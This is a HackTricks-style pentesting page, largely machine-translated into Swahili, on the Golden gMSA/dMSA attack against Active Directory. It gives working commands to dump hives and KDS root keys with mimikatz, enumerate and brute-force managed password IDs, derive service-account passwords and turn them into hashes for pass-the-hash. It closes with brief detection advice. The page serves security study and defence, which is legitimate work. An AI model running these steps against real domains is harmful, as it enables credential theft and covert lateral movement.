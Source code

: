 # Golden gMSA/dMSA Attack (Offline Derivation of Managed Service Account Passwords)

{{#include ../../banners/hacktricks-training.md}}

## Overview

Windows Managed Service Accounts (MSA) ni wakala maalum walioundwa kuendesha huduma bila haja ya kusimamia nywila zao kwa mikono.
Kuna ladha mbili kuu:

1. **gMSA** – kundi la Managed Service Account – linaweza kutumika kwenye mwenyeji wengi ambao wameidhinishwa katika sifa yake ya `msDS-GroupMSAMembership`.
2. **dMSA** – delegated Managed Service Account – mrithi (preview) wa gMSA, ukitegemea usimbuaji sawa lakini ukiruhusu hali za ugawaji zenye granular zaidi.

Kwa toleo zote mbili **nywila haihifadhiwi** kwenye kila Domain Controller (DC) kama hash ya kawaida ya NT. Badala yake kila DC inaweza **kuvuta** nywila ya sasa kwa wakati kutoka:

* Funguo ya **KDS Root Key** ya msitu mzima (`KRBTGT\KDS`) – siri yenye jina la GUID iliyozalishwa kwa bahati nasibu, iliyorejelewa kwa kila DC chini ya kontena ya `CN=Master Root Keys,CN=Group Key Distribution Service, CN=Services, CN=Configuration, …`.
* **SID** ya akaunti lengwa.
* **ManagedPasswordID** (GUID) ya kila akaunti inayopatikana katika sifa ya `msDS-ManagedPasswordId`.

Uchimbaji ni: `AES256_HMAC( KDSRootKey , SID || ManagedPasswordID )` → blob ya byte 240 hatimaye **imeandikwa kwa base64** na kuhifadhiwa katika sifa ya `msDS-ManagedPassword`.
Hakuna trafiki ya Kerberos au mwingiliano wa kikoa unahitajika wakati wa matumizi ya kawaida ya nywila – mwenyeji anayeshiriki anavuta nywila kwa ndani mradi unajua ingizo tatu.

## Golden gMSA / Golden dMSA Attack

Ikiwa mshambuliaji anaweza kupata ingizo zote tatu **offline** wanaweza kuhesabu **nywila halali za sasa na za baadaye** kwa **kila gMSA/dMSA katika msitu** bila kugusa DC tena, wakiepuka:

* Kurejelewa kwa Kerberos kabla ya uthibitishaji / kumbukumbu za ombi la tiketi
* Ukaguzi wa kusoma LDAP
* Vipindi vya kubadilisha nywila (wanaweza kuhesabu mapema)

Hii ni sawa na *Golden Ticket* kwa akaunti za huduma.

### Prerequisites

1. **Kuathiriwa kwa kiwango cha msitu** cha **DC moja** (au Msimamizi wa Biashara). Upatikanaji wa `SYSTEM` unatosha.
2. Uwezo wa kuorodhesha akaunti za huduma (kusoma LDAP / RID brute-force).
3. .NET ≥ 4.7.2 x64 workstation ili kuendesha [`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) au msimbo sawa.

### Phase 1 – Extract the KDS Root Key

Dump kutoka DC yoyote (Volume Shadow Copy / raw SAM+SECURITY hives au siri za mbali):
```cmd
reg save HKLM\SECURITY security.hive
reg save HKLM\SYSTEM  system.hive

# With mimikatz on the DC / offline
mimikatz # lsadump::secrets
mimikatz # lsadump::trust /patch   # shows KDS root keys too
```
Mfuatano wa base64 uliopewa jina `RootKey` (jina la GUID) unahitajika katika hatua za baadaye.

### Awamu ya 2 – Kuorodhesha vitu vya gMSA/dMSA

Pata angalau `sAMAccountName`, `objectSid` na `msDS-ManagedPasswordId`:
```powershell
# Authenticated or anonymous depending on ACLs
Get-ADServiceAccount -Filter * -Properties msDS-ManagedPasswordId | \
Select sAMAccountName,objectSid,msDS-ManagedPasswordId
```
[`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) inatekeleza njia za msaada:
```powershell
# LDAP enumeration (kerberos / simple bind)
GoldendMSA.exe info -d example.local -m ldap

# RID brute force if anonymous binds are blocked
GoldendMSA.exe info -d example.local -m brute -r 5000 -u jdoe -p P@ssw0rd
```
### Phase 3 – Guess / Discover the ManagedPasswordID (when missing)

Baadhi ya matumizi *hutoa* `msDS-ManagedPasswordId` kutoka kwa usomaji unaolindwa na ACL. 
Kwa sababu GUID ni 128-bit, bruteforce ya kijinga haiwezekani, lakini:

1. **Bits 32 za kwanza = wakati wa epoch wa Unix** wa uundaji wa akaunti (ufafanuzi wa dakika).
2. Imefuatiwa na bits 96 za nasibu.

Hivyo, **orodha nyembamba ya maneno kwa kila akaunti** (± masaa machache) ni halisi.
```powershell
GoldendMSA.exe wordlist -s <SID> -d example.local -f example.local -k <KDSKeyGUID>
```
Chombo kinahesabu nywila za wagombea na kulinganisha blob yao ya base64 dhidi ya sifa halisi ya `msDS-ManagedPassword` – mechi inaonyesha GUID sahihi.

### Awamu ya 4 – Hesabu ya Nywila ya Kuzima & Kubadilisha

Mara tu ID ya ManagedPassword inajulikana, nywila halali iko umbali wa amri moja:
```powershell
# derive base64 password
GoldendMSA.exe compute -s <SID> -k <KDSRootKey> -d example.local -m <ManagedPasswordID>

# convert to NTLM / AES keys for pass-the-hash / pass-the-ticket
GoldendMSA.exe convert -d example.local -u svc_web$ -p <Base64Pwd>
```
Hashi zinazotokana zinaweza kuingizwa kwa **mimikatz** (`sekurlsa::pth`) au **Rubeus** kwa matumizi mabaya ya Kerberos, kuruhusu **lateral movement** ya siri na **persistence**.

## Detection & Mitigation

* Punguza uwezo wa **DC backup na kusoma hive ya rejista** kwa wasimamizi wa Tier-0.
* Fuata **Directory Services Restore Mode (DSRM)** au uundaji wa **Volume Shadow Copy** kwenye DCs.
* Kagua usomaji / mabadiliko ya `CN=Master Root Keys,…` na bendera za `userAccountControl` za akaunti za huduma.
* Gundua **base64 password writes** zisizo za kawaida au matumizi ya ghafla ya nywila za huduma kati ya mwenyeji.
* Fikiria kubadilisha gMSAs zenye mamlaka ya juu kuwa **akaunti za huduma za kawaida** zikiwa na mizunguko ya kawaida isiyo ya kawaida ambapo kutengwa kwa Tier-0 hakuwezekani.

## Tooling

* [`Semperis/GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) – utekelezaji wa rejeleo unaotumika katika ukurasa huu.
* [`mimikatz`](https://github.com/gentilkiwi/mimikatz) – `lsadump::secrets`, `sekurlsa::pth`, `kerberos::ptt`.
* [`Rubeus`](https://github.com/GhostPack/Rubeus) – pass-the-ticket kwa kutumia funguo za AES zilizotokana.

## References

- [Golden dMSA – authentication bypass for delegated Managed Service Accounts](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/)
- [Semperis/GoldenDMSA GitHub repository](https://github.com/Semperis/GoldenDMSA)
- [Improsec – Golden gMSA trust attack](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-5-golden-gmsa-trust-attack-from-child-to-parent)

{{#include ../../banners/hacktricks-training.md}}
